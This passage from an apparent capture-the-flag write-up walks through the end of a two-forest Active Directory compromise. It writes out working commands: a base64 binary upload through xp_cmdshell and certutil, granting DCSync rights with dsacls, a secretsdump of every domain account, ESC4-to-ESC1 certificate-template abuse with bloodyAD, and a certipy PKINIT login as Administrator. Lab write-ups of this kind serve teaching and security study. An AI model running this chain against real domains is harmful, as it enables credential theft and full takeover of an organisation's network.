Two real gotchas here. Any file write performed by a process spawned through GodPotato's impersonation chain silently reports success but the file is gone moments later, because that token's logon session is transient; persistent writes have to happen from the outer `svc_sql` process instead, with GodPotato used only to capture command output. And spawning a second full `powershell.exe` host process nested *under* a GodPotato-impersonated process reliably kills the `xp_cmdshell`/TDS connection it's running through, across every invocation style tried, so each GodPotato call needs to stay single-level: one command or one pre-compiled binary, never another PowerShell host nested inside it. `user.txt`, on C.Carlssen's desktop, is read this way.



## DCSync, and the real cross-forest bridge

Getting back to SYSTEM on DC2 for this phase meant re-running GodPotato, and it needed a new workaround: `C:\Windows\Temp` genuinely doesn't exist on DC2 (`dir` returns `File Not Found`), unlike DC1 where that path is fine, and DC2 can't reach my attack box directly over HTTP to download anything. The binary has to go up in a chunked, pasted upload instead:

```terminal
SQL> xp_cmdshell echo <base64 chunk 1> >> C:\Users\Public\gp.b64
SQL> xp_cmdshell echo <base64 chunk 2> >> C:\Users\Public\gp.b64
SQL> xp_cmdshell certutil -decode C:\Users\Public\gp.b64 C:\Users\Public\GodPotato.exe
```

Checking the decoded file's size against the real binary's size confirms the transfer wasn't corrupted before relying on it. SYSTEM on a genuine domain controller already has implicit full control over the domain object's own ACL, so granting yourself DCSync rights doesn't need any existing privilege, just `dsacls`:

```terminal
C:\> dsacls "DC=pong,DC=htb" /G "PONG\Pong_gMSA$:CA;Replicating Directory Changes"
C:\> dsacls "DC=pong,DC=htb" /G "PONG\Pong_gMSA$:CA;Replicating Directory Changes All"
```

DCSync doesn't exploit a bug, it's impacket legitimately speaking MS-DRSR, the same protocol real DCs use to replicate between each other, and the DC only checks whether the caller holds those two rights:

```terminal
❯ impacket-secretsdump -k -no-pass 'pong.htb/Pong_gMSA$@dc2.pong.htb' -just-dc -dc-ip 192.168.2.2
```

This dumps every account in `pong.htb`, including `PING$` (the inter-forest trust account) and `R.Martinelli`, from the `CA Managers` group found back in the enumeration phase. Having the trust account's key makes forging a cross-forest golden ticket with an injected `ping.htb` SID *look* possible, but forest trusts are SID-filtered by default: the forged ticket gets past share listing (basic auth) but `C$`/`ADMIN$` come back `STATUS_ACCESS_DENIED`, confirming the injected SID is stripped during the referral. Treating that as a dead end, the real path the box intends is R.Martinelli's genuine (non-forged) foreign security principal membership in `ping.htb`'s `CA Managers` group, confirmed from the DCSync output above.

## ESC4 to ESC1 on the ping.htb CA

`CA Managers` sounds like it should mean CA-level RPC rights, the classic ESC7 "manage CA" primitive, and that was my first guess: `certipy-ad ca -issue-request`/`-backup` as R.Martinelli, crossing the trust, both fail with a DCOM bind error (`invalid_checksum`) that a same-forest control test shows is specific to the cross-realm DCOM layer, not a permissions problem. `certipy-ad`'s own `template` subcommand, the normal way to automate this kind of flip, just hangs indefinitely cross-realm too, even after the clock-skew fix, which is consistent with the same DCOM sensitivity rather than a second unrelated bug. Checking what's actually documented for this template rather than continuing to push on RPC and DCOM, the real right is a plain-LDAP WriteDacl on the certificate template object itself, reachable with `bloodyAD` instead:

```terminal
❯ export KRB5CCNAME=R.Martinelli@ldap_dc1.ping.htb@PING.HTB.ccache
❯ bloodyAD -H dc1.ping.htb -d PING.HTB -k \
    get object "CN=SmartcardAuthentication,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=ping,DC=htb" \
    --attr nTSecurityDescriptor --resolve-sd

ACL.1.Trustee: CA Managers
ACL.1.Right: WRITE_OWNER|WRITE_DACL|GENERIC_EXECUTE|WRITE_PROP|READ_PROP
ACL.1.ObjectType: Self
```

That's ESC4, not ESC7: the template is just another AD object with its own permissions, completely separate from whatever the CA server itself enforces over DCOM, which is why the LDAP path works cross-realm when the RPC path doesn't. `CA Managers`' WriteDacl grants full control to c.roberts, moving the rest of the chain onto a normal, same-forest ticket:

```terminal
❯ bloodyAD -H dc1.ping.htb -d PING.HTB -k \
    add genericAll "CN=SmartcardAuthentication,...,DC=ping,DC=htb" "c.roberts"
```

`msPKI-Certificate-Name-Flag` controls where a certificate's identity comes from at enrollment. The template's original value forced the CA to pull the subject from the requester's own AD attributes; setting it to `1` sets only `ENROLLEE_SUPPLIES_SUBJECT` and clears the rest, so the enrollee can now specify any subject or UPN they want. That's the ESC1 condition, created here with a WriteDacl that was never meant to allow it:

```terminal
❯ export KRB5CCNAME=c.roberts.ccache
❯ bloodyAD -H dc1.ping.htb -d PING.HTB -k \
    set object "CN=SmartcardAuthentication,...,DC=ping,DC=htb" mspki-certificate-name-flag -v 1
```

## PKINIT as Administrator

With the template ESC1-exploitable, a certificate request naming `administrator@ping.htb` as the UPN gets issued, but PKINIT with it fails: modern DCs patched for KB5014754 enforce strong certificate mapping, requiring an explicit object-SID extension on the certificate, not just a matching UPN. The SID has to be set at request time, since `certipy-ad auth` has no `-sid` option at all:

```terminal
❯ certipy-ad req -k -no-pass -dc-ip 10.129.245.56 -target dc1.ping.htb -ca ping-DC1-CA \
    -template SmartcardAuthentication -upn administrator@ping.htb \
    -sid S-1-5-21-750635624-2058721901-1932338391-500 -out administrator_esc4b
[*] Certificate object SID is 'S-1-5-21-750635624-2058721901-1932338391-500'
```

```terminal
❯ certipy-ad auth -pfx administrator_esc4b.pfx -dc-ip 10.129.245.56
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Got hash for 'administrator@ping.htb': aad3b435b51404eeaad3b435b51404ee:<redacted>
```

```terminal
❯ export KRB5CCNAME=administrator.ccache
❯ impacket-wmiexec -k -no-pass -dc-ip 10.129.245.56 administrator@dc1.ping.htb \
    "cmd /c type C:\Users\Administrator\Desktop\root.txt"
```

*Gotcha: `certipy-ad auth` has no `-sid` flag at all, it only exists on `certipy-ad req`; a `PKINIT` failure with `Object SID mismatch` means going back and re-requesting the certificate with `-sid`, not hunting for an auth-time option that doesn't exist. The first `wmiexec` attempt here also timed out at the default 30 seconds for this cross-network call; a longer client-side timeout on the retry fixed it with no other change, which is a reminder that not every timeout this deep in a chain means the ticket or the access itself is bad.*

`root.txt` is on the Administrator desktop on DC1. Full compromise of both forests: `ping.htb` through this certificate chain, `pong.htb` earlier through RBCD and GodPotato.

## Takeaways

- The two domain controllers are dual-homed across a Hyper-V internal switch that isn't visible from outside, so the second forest never shows up in a port scan, only after there's already a shell on the first DC.
- A group's name is not proof of what it actually grants: `CA Managers` reads like ESC7 CA-management rights, but the real, working primitive is a direct WriteDacl on one certificate template object, reachable over plain LDAP even when the CA's own DCOM interface breaks cross-realm.
- Forest trusts are SID-filtered by default, so a forged cross-forest ticket with an injected SID gets through authentication but not authorization, while a genuine foreign security principal sitting in a privileged group is the real, unforged bridge the box wants.
- Object ownership in AD is itself a privilege escalation primitive: owning `gMSA Managers` through a group's membership was enough to grant full control over it with no ACE ever naming c.roberts directly.
- Most of the actual difficulty on this box wasn't the exploit logic, it was getting the Kerberos tooling to cooperate across two realms: a referral has to be built by hand for anything that only knows how to authenticate inside one domain, a hand-built impacket ccache gets rejected by anything using the system's own GSSAPI stack, SPNs and `/etc/hosts` alias order both matter in ways that fail silently, and the clock has to stay in sync the entire time.
- None of that Kerberos plumbing shows up on a typical single-domain AD box, and almost every "it should just work" step here needed one of these fixed first.

<%= render("../../_partials/post-footer.html", { url, title, tags, prevPost, nextPost }) %>
